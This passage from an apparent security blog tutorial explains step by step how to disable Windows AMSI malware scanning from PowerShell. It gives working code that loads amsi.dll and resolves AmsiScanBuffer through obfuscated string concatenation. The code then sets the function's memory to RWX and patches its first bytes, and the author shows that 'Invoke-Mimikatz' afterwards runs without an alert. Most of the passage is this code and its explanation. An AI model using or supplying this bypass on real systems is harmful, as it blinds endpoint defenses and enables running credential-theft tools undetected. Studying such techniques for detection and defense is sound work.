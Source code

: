 ```c#
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}"@
```

In the above code, we are first loading the required namespaces. `System.Runtime.InteropServices` is where pinvoke implemented. Then we are defining the signature for each native API, I have taken them from pinvoke.net. We need to load the above C# code inside powershell session using Add-Type.

```c#
Add-Type $code
```

Now we can use those API calls from inside powershell session.

```c#
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

In the above code, first we are getting the handle to the amsi.dll library then calling GetProcAddress to get the address to the AmsiScanBuffer function inside amsi.dll. Then we are defining a variable named $ret which contains the bytes which will overwrite the very first instructions of AmsiScanBuffer, $out is what will contain the old permission of the memory region returned by VirtualProtect then we are calling VirtualProtect to change the permission of AmsiScanBuffer region to RWX(0x40) and then using Marshal.Copy to copy bytes from managed memory region to unmanaged and then calling VirtualProtect again to change back the permission of AmsiScanBuffer to previous one which we had stored in $out.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164830.png)

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164938.png)

As can be seen above, now passing "Invoke-Mimikatz" doesn't trigger amsi alert. If you have attached the powershell session to WinDBG, you can verify if the AmsiScanBuffer was overwritten with our bytes.

Thank you very much for taking your time in reading this. Feel free to reach out to me @dazzyddos for any query or if there's any correction or addition needed.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164903.png)

### Resources and References

https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

https://fluidattacks.com/blog/amsi-bypass/

https://frida.re